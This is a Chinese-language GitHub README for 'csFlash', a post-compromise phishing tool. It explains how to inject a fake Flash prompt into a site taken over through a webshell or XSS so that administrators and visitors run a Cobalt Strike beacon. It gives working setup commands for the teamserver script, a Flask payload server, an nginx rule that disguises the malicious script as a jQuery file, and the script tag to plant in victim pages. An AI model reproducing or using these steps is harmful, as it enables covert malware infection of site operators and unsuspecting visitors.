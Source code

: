 # csFlash
适用于拿到webshell后进行cs钓鱼

## 效果
当获取到webshell或站点存在xss漏洞时，想获得站点运维人员/网站访问人员主机权限，可在web中插入js钓鱼页面

参考 https://github.com/r00tSe7en/Flash-Pop
![image](https://user-images.githubusercontent.com/38282439/197719314-d685b6ec-b007-4097-a0a0-2f7e6463de53.png)

此项目实现cs上线后自动隐藏功能


## 使用方法

1.在*CS-PushPlus/PushPlus.py*配置好webhook的token，默认使用推送加，可自定义修改为钉钉、企业微信
<img width="714" alt="image" src="https://user-images.githubusercontent.com/38282439/197714243-1df4c320-b337-41c9-ba59-b455a459847f.png">

并配置好数据库文件路径

<img width="608" alt="image" src="https://user-images.githubusercontent.com/38282439/197714659-e8ce0270-b61d-4f27-b985-e894cc50b76c.png">

2.配置好*CS-PushPlus/PushPlus.cna*文件中绝对路径

```
$cmd = 'python3 /CS-PushPlus/PushPlus.py' . " --computernam " . $computerName . " --externalip " . $externalIP . " --username " . $userName;
```

3.启动cs teamserver 、连接cna脚本置于后台
```
./agscript.sh 127.0.0.1 50050 User Pass ./CS-PushPlus/PushPlus.cna
```

4.启动js服务并置于后台，需要修改ssl证书信息
（也可使用http服务，但不建议，否则可能在https站点无法加载此js文件）
```
python3 flaskHttpd.py 
```
5.于nginx等web服务器配置，或开启防火墙使得能够通过路径访问到此flask服务
```
        location /public/common/libs/jquery/jquery-1.9.1.min.js {
                proxy_pass $flaskHttpd;
                }
```
6.替换项目中flash.exe文件，将flask的url插入到web页面中
```
<script src=https://xxxxx.com/public/common/libs/jquery/jquery-1.9.1.min.js> </script>
```

